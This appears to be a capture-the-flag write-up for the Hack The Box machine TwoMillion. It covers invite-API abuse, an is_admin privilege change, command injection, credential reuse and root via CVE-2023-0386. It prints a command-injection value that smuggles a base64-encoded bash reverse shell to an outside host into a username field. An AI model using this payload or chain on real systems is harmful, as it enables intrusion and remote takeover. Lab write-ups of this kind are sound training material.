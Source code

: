 # Hack The Box: TwoMillion

### Challenge Name: TwoMillion
**Difficulty:** Easy

![image](https://github.com/user-attachments/assets/b56b182a-6a29-448d-adab-c9879eeffb2a)



## Writeup:

To start, I ran nmap on the ip address to see what ports were exposed:

`nmap 10.10.11.221`

I saw that 2 ports were opened `80 and 22`

![image](https://github.com/user-attachments/assets/83ba8af9-237d-4148-a9d9-4685d5453e97)

After going to the website, I found a hint that the developers gave away (<b> exploit the invite proccess</b>)

![image](https://github.com/user-attachments/assets/ca60947b-a7f8-4c6d-b36e-b3c380b70de6)

After looking at the resources loaded for the /invite talk, I saw an interesting file called `inviteapi.min.js`

![image](https://github.com/user-attachments/assets/6a8230e3-f3cc-4ed9-84bc-1d84fbc8d4aa)

The .js file seemed to be obfuscated, so I used `https://de4js.kshift.me/` to decode the actual code.
The decoded result is:

```
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
The important part is that the `makeInviteCode()` api has been leaked!! We can use this endpoint to create an invite code for ourselves. 

After running the function, I got a ROT13 encrypted string:

`Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr` 

which decodes to 

`In order to generate the invite code, make a POST request to /api/v1/invite/generate`

![image](https://github.com/user-attachments/assets/4c3976bf-d5af-41d5-b118-6e9a1ec98780)


So I followed the instructions and made a `POST` request to `/api/v1/invite/generate`.

Great!! I was able to get the code `T1dKNVUtOTlUTkotSUJLMFEtVTM1REk=` 

which is Base64 Encoded for 

`OWJ5U-99TNJ-IBK0Q-U35DI`

With this code, I was able to complete the signup process.

Now that I logged in, I played around more with the APIs, and I found out `http://2million.htb/api/v1` gave me a map of all the V1 API call.

![image](https://github.com/user-attachments/assets/194727d1-4964-430b-9a34-086c8b20ba65)

From the APIs, I was interested in the `/api/v1/admin/settings/update` enpoint as this allows us to update the user settings.

After resending it, I saw that message what warned me of `invalid content type`.

![image](https://github.com/user-attachments/assets/d5d80e7a-60cb-4238-8f92-ef7051b56613)

To fix this, I added `Content-Type: application/json` in my HTTP header.

![image](https://github.com/user-attachments/assets/851d4f2e-b254-411d-9b7f-16f0b360a3ac)

Now, I get an error saying there is no email parameter, so I added `{'email': 'temp@gmail.com'}` into my payload.

![image](https://github.com/user-attachments/assets/25fbd10c-d5bd-4d84-b204-7b16a4e29eb0)


Seems like I have to change my payload again to: `{
"email": "temp@gmail.com", "is_admin" : 1
}`

GREAT! This time it worked at it seemed to have changed my account to an admin account.

![image](https://github.com/user-attachments/assets/04e4ce53-bbd7-4b78-819a-d489537c2f73)


With this, I now decide to test the `/api/v1/admin/vpn/generate` enpoint. I fill out all of the requirements and I was able to generate the VPN.

![image](https://github.com/user-attachments/assets/368bbf35-79ae-4f88-9cb7-cb02d2ff03cc)

After some playing around, I found out that it was vulnerable to command injection. I used this to create a reverse shell.


```
{
"username": "hackerman;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC85OTk5IDA+JjE= | base64 -d | bash;"
}
```

![image](https://github.com/user-attachments/assets/103888ad-43b1-41aa-a677-ef78792f3d91)

After some digging, I found a .env file which had the DB username and password

![image](https://github.com/user-attachments/assets/bd3b6ac7-2ef9-46f1-b984-5d31ce86230a)


With these credentials I was able to SSH into the machine. I was able to get the user flag (`ba25a30c7e0bcd542c1274e03985dc6a`)...
But this is not a root account unfortunately :(

![image](https://github.com/user-attachments/assets/c940497c-a205-48ce-a35e-291c81fd0113)


From looking at the OS, it is running `22.04.2 LTS (Jammy Jellyfish)`. I looked up Privilege Escalation scripts for this version and found `CVE-2023-0386`

After Executing the exploit I was able to get Root and the flag was `25b40afff5c53db702668299add6f306`

![image](https://github.com/user-attachments/assets/23bc035c-4afd-4664-8b4e-0f3f56507399)
